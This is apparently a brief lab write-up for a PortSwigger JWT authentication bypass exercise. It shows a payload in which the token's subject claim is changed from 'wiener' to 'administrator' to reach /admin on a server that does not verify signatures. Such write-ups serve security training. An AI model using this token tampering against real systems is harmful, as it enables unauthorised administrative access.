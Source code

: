 # JWT


### Lab: JWT authentication bypass via unverified signature


Payload
```
/admin
{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```